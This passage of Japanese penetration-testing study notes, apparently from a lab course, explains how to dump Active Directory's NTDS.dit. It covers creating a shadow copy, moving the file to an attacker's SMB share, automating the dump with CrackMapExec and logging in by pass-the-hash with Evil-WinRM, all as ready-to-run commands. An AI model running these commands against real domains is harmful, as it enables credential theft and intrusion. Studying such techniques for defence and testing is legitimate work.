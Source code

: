 ドメインを含むユーザーアカウントの権限の確認
```shell-session
*Evil-WinRM* PS C:\> net user <ユーザー名>
```

### Cのシャドウコピーの作成
vssadminを使用して、Cドライブまたは管理者がADの初期インストール時に選択した任意のボリュームの[VSS](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)を作成する
- VSSは、PPやシステムを停止しないで、読み書きがアクティブなボリュームのコピーを作成できる
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

### VSS から NTDS.dit をコピーして、攻撃元に転送する
C:の作成できたVSSから、NTDS.ditファイルだけを抽出する
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy <Shadow Copy Volume Name>\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

転送は、[[Pentest_Technique/ファイル転送\|ファイル転送]]の「LinuxでSMBサーバーを建てる」の方法で、攻撃元のLinuxを準備する

攻撃先のWindows用のコマンド
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\<攻撃元のIP>\CompData 
```


### CrackMapExecを使うことで自動化する
- 上記と同じ手順をすべて1つのコマンドでできる
- このコマンドを使用すると、VSSを利用して、ターミナルセッション内でNTDS.ditファイルの内容をすばやくキャプチャしてダンプする
- 攻撃元のホストで以下のコマンドを実行
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### ハッシュのクラックとPass-The-Hashでのログイン
- ハッシュのクラックは、SAM攻撃、LSASS攻撃と同様の手法でできる

Pass-The-Hash
- ハッシュを使用して、`Pass-the-Hash`（`PtH`）と呼ばれるタイプの攻撃を使用してシステムで認証
- PtH 攻撃は、[NTLM 認証プロトコル](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials)を利用して、パスワード ハッシュを使用してユーザーを認証する
	- ログインの形式として`username`:`clear-text password`の代わりに、`username`:`password hash`を使用できる

コマンド
```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

ターゲットへの初期侵入後、ネットワーク内で横展開を行う必要がある場合に、Pass-The-Hashを試みることができる

# Windowsでの資格情報ハンティング(Credential Hunting)
- `Credential Hunting`は、ファイルシステム全体とさまざまなアプリケーションを通じて詳細な検索を実行してクレデンシャルを発見するプロセス
